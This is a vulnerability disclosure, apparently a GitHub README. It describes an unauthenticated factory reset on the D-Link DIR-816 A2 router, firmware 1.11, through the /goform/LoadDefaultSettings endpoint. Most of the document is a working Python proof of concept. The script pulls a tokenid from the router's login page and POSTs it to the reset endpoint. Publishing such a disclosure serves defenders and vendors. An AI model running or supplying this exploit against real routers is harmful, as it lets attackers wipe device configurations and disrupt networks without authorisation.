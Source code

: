 # D-Link DIR-816 A2 Reset Router Without Authentication

**Vender**：D-Link

**Firmware version**: 1.11

**Hardware version**: DIR-816 A2

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

Attacker can use a API URL "/goform/LoadDefaultSettings" to reset router without authentication.

## POC

![](poc.png)

Reset router:
```python
# !/usr/bin/env python2
# coding=utf-8
import requests


def get_token_id(target_ip):
    """

    :param target_ip: router ip address.
    :return: tokenid
    """
    url = "http://{}/dir_login.asp".format(target_ip)
    rsp = requests.get(url, allow_redirects=False)
    rsp_list = rsp.text.split()
    tokenid = None
    for i in range(len(rsp_list)):
        if 'name="tokenid"' in rsp_list[i]:
            tokenid = int(rsp_list[i + 1].split('=')[1][1:-1])
            break
    return tokenid


def send_from_request(target_ip, from_name, data):
    """

    :param target_ip: router ip address.
    :param from_name: from_name to request
    :param data: post data in json format.
    :return:
    """
    url = "http://{}/goform/{}".format(target_ip, from_name)
    rsp = requests.post(url, data=data, allow_redirects=False, timeout=1)
    return rsp.text


if __name__ == '__main__':
    target_ip = "192.168.0.1"
    token_id = get_token_id(target_ip)
    if token_id:
        from_name = "LoadDefaultSettings"
        from_data = {"tokenid": token_id}
        send_from_request(target_ip, from_name, from_data)

```
